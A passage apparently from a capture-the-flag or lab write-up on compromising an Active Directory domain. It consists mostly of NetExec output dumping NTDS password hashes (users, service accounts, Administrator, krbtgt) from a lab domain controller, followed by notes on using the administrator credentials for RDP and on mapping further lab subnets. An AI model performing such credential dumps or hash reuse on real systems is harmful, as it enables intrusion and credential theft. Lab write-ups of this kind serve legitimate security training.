NTDSUTIL    10.9.10.10      445    CYDC             core.cyber.local\James.Fleming:1338:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.10.10      445    CYDC             core.cyber.local\Eddie.Askew:1339:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.10.10      445    CYDC             core.cyber.local\Nancy.Gammon:1340:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.10.10      445    CYDC             core.cyber.local\David.Ferris:1341:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.10.10      445    CYDC             core.cyber.local\Marlys.Garcia:1342:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.10.10      445    CYDC             core.cyber.local\Nancy.McNamee:1343:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.10.10      445    CYDC             core.cyber.local\Jessie.Ash:1344:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.10.10      445    CYDC             core.cyber.local\Casey.Rash:1345:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.10.10      445    CYDC             core.cyber.local\Judith.Harney:1346:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.10.10      445    CYDC             core.cyber.local\Lisa.Brewer:1347:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.10.10      445    CYDC             core.cyber.local\Debra.Weight:1348:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.10.10      445    CYDC             core.cyber.local\Ben.Spillman:1349:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.10.10      445    CYDC             core.cyber.local\Cedric.McMillan:1350:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.10.10      445    CYDC             core.cyber.local\John.Meeks:1351:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.10.10      445    CYDC             core.cyber.local\Paul.Peterson:1352:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.10.10      445    CYDC             core.cyber.local\Dottie.Croft:1353:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.10.10      445    CYDC             core.cyber.local\Dominic.Doyle:1354:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.10.10      445    CYDC             core.cyber.local\Olivia.Taylor:1355:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.10.10      445    CYDC             core.cyber.local\Denise.Wheeler:1356:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.10.10      445    CYDC             core.cyber.local\Pierre.Rose:1357:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.10.10      445    CYDC             core.cyber.local\Gregory.Barba:1358:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.10.10      445    CYDC             core.cyber.local\Elaina.Powell:1359:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.10.10      445    CYDC             core.cyber.local\Hershel.Landers:1360:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.10.10      445    CYDC             core.cyber.local\Robert.Bradley:1361:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.10.10      445    CYDC             core.cyber.local\David.Lauer:1362:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.10.10      445    CYDC             core.cyber.local\Joshua.Tremblay:1363:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.10.10      445    CYDC             core.cyber.local\Susan.Rodriguez:1364:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.10.10      445    CYDC             core.cyber.local\James.Norris:1365:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.10.10      445    CYDC             core.cyber.local\Alex.Parrott:1366:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.10.10      445    CYDC             core.cyber.local\Gerald.Lee:1367:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.10.10      445    CYDC             core.cyber.local\Ruth.Robinson:1368:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.10.10      445    CYDC             core.cyber.local\Thomas.Howell:1369:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.10.10      445    CYDC             core.cyber.local\Yolanda.Bartel:1370:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.10.10      445    CYDC             core.cyber.local\Dixie.Wagner:1371:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.10.10      445    CYDC             core.cyber.local\svc_tomcat:1372:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.10.10      445    CYDC             core.cyber.local\corewebtw$:1395:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.10.10      445    CYDC             core.cyber.local\corewkt001$:1396:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.10.10      445    CYDC             CYBER$:1398:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.10.10      445    CYDC             Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.10.10      445    CYDC             krbtgt:502:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.10.10      445    CYDC             cyber.local\$H51000-QE41CF9RF1FM:1201:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.10.10      445    CYDC             cyber.local\SM_1d885b86146646c99:1202:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.10.10      445    CYDC             cyber.local\SM_4678ba7a74114211a:1203:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.10.10      445    CYDC             cyber.local\SM_c7ef9cbdee564cf09:1204:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.10.10      445    CYDC             cyber.local\SM_e1711118600448eda:1205:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.10.10      445    CYDC             cyber.local\SM_8587a514dccc4fa39:1206:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.10.10      445    CYDC             cyber.local\SM_6b4f1fba08944c958:1207:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.10.10      445    CYDC             cyber.local\SM_570bd9e82b6f4262a:1208:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.10.10      445    CYDC             cyber.local\SM_44262a42ed1d4fd48:1209:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.10.10      445    CYDC             cyber.local\SM_b7ccfc91689d42a88:1210:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.10.10      445    CYDC             cyber.local\HealthMailbox7fb3496:1212:aad3b435b51404eeaad3b435b51404ee:dc1c31722ba4c6b6285bbdcdfd5b8d86:::
NTDSUTIL    10.9.10.10      445    CYDC             cyber.local\HealthMailbox165315b:1213:aad3b435b51404eeaad3b435b51404ee:79a90d693151bde910bfbfde4a4007ae:::
NTDSUTIL    10.9.10.10      445    CYDC             cyber.local\HealthMailbox8529db8:1214:aad3b435b51404eeaad3b435b51404ee:94f3ec8ef51db866581a58036a6c393d:::
NTDSUTIL    10.9.10.10      445    CYDC             cyber.local\HealthMailboxe431f79:1215:aad3b435b51404eeaad3b435b51404ee:ca26e4623404f8dda91381b3b7401ef3:::
NTDSUTIL    10.9.10.10      445    CYDC             cyber.local\HealthMailboxd96b607:1216:aad3b435b51404eeaad3b435b51404ee:fdfd4e85da0858e8d6a319f5e33ad3d5:::
NTDSUTIL    10.9.10.10      445    CYDC             cyber.local\HealthMailbox2522b7c:1217:aad3b435b51404eeaad3b435b51404ee:440e0af836ed9eb96def9a76fa0b4adb:::
NTDSUTIL    10.9.10.10      445    CYDC             cyber.local\HealthMailbox91929ea:1218:aad3b435b51404eeaad3b435b51404ee:d6d41d93674fb3706b5b1719d24d211f:::
NTDSUTIL    10.9.10.10      445    CYDC             cyber.local\HealthMailbox73c3c12:1219:aad3b435b51404eeaad3b435b51404ee:eda21ed3e7778e41c9e4d07c67328353:::
NTDSUTIL    10.9.10.10      445    CYDC             cyber.local\HealthMailbox5850680:1220:aad3b435b51404eeaad3b435b51404ee:b50f7962e55c385ff0c381c1173f72fd:::
NTDSUTIL    10.9.10.10      445    CYDC             cyber.local\HealthMailbox3d87454:1221:aad3b435b51404eeaad3b435b51404ee:78137764d2e1af116270c4458c7a5aed:::
NTDSUTIL    10.9.10.10      445    CYDC             cyber.local\HealthMailbox116be58:1222:aad3b435b51404eeaad3b435b51404ee:0a7cd50044026fe17ce7c8308098167c:::
NTDSUTIL    10.9.10.10      445    CYDC             D3V$:1223:aad3b435b51404eeaad3b435b51404ee:9fe6d1a1bfaa334b18c82e2e22d6d83c:::
NTDSUTIL    10.9.10.10      445    CYDC             COREWEBDL$:1400:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.10.10      445    CYDC             M3C$:1224:aad3b435b51404eeaad3b435b51404ee:a65ba98d0425744677f3e4979f0f3c6b:::
NTDSUTIL    10.9.10.10      445    CYDC             COREWKT002$:1402:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.10.10      445    CYDC             CYFS$:1225:aad3b435b51404eeaad3b435b51404ee:2fcd9f5605ed9ee63a88ee7571c07619:::
NTDSUTIL    10.9.10.10      445    CYDC             CYAPP$:2601:aad3b435b51404eeaad3b435b51404ee:f787cd99b54ab0d05cbba3624199abd0:::
NTDSUTIL    10.9.10.10      445    CYDC             CYGW$:2602:aad3b435b51404eeaad3b435b51404ee:8f3e4d76e844151e5dcf15a36555ef47:::
NTDSUTIL    10.9.10.10      445    CYDC             cyber.local\svc_waplink:2603:aad3b435b51404eeaad3b435b51404ee:4d0c65cc66e18b559aa37af616229a28:::
NTDSUTIL    10.9.10.10      445    CYDC             inception$:3602:aad3b435b51404eeaad3b435b51404ee:9f59dac137c4395af9f486fb4b935931:::
NTDSUTIL    10.9.10.10      445    CYDC             cyber.local\Robert.Lanza:3603:aad3b435b51404eeaad3b435b51404ee:357e1382f274f51526f1e263cef0f67d:::
NTDSUTIL    10.9.10.10      445    CYDC             yovecio:12601:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.10.10      445    CYDC             [+] Dumped 371 NTDS hashes to /root/.nxc/logs/CYDC_10.9.10.10_2024-06-19_221742.ntds of which 351 were added to the database
NTDSUTIL    10.9.10.10      445    CYDC             [*] To extract only enabled accounts from the output file, run the following command: 
NTDSUTIL    10.9.10.10      445    CYDC             [*] grep -iv disabled /root/.nxc/logs/CYDC_10.9.10.10_2024-06-19_221742.ntds | cut -d ':' -f1
```

And with the administrator credentials we can now RDP and grab another flag baby!



Now we can also see that the d3v.local points at **10.9.30.0/24**



The inception.local at **10.9.40.0/24**


&nbsp;

&nbsp;

&nbsp;